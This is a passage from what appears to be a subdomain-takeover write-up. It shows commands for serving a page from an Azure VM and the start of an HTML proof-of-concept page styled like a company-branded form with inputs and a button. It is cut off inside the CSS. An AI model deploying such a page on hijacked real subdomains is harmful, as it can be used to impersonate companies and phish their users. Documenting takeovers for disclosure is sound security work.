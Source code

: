    
   You will have to execute some commands like the following ones
   
   <div class="code-header">
      <button class="copy-code-button">
        Copy
      </button>
   </div>
   ```console
   ssh <your-username>@<your-public-azure-vm-ip>
   mkdir www
   cd /www
   nano index.html
   nohup sudo python3 -m http.server 80 &
   ```
   
   where during the execution of the command *nano* you will have to write the HTML code you want.
   
   In my case I used the following HTML code generated by ChatGPT

   <div class="code-header">
      <button class="copy-code-button">
        Copy
      </button>
   </div>
   ```html
   <!-- Subdomain takeover by HackCommander at dd/mm/aaaa -->
   <!DOCTYPE html>
   <html>
   <head>
     <title>PUT THE NAME OF THE COMPANY HERE</title>
     <style>
       body {
         font-family: Arial, sans-serif;
       }
    
       .container {
         width: 300px;
         margin: 0 auto;
         padding: 20px;
         border: 1px solid #ccc;
         border-radius: 5px;
       }
    
       h2 {
         text-align: center;
       }
    
       .form-group {
         margin-bottom: 15px;
       }
    
       .form-group label {
         display: block;
         margin-bottom: 5px;
       }
    
       .form-group input {
         width: 100%;
         padding: 7px;
         border: 1px solid #ccc;
         border-radius: 3px;
       }
    
       .form-group button {
         width: 100%;
   ```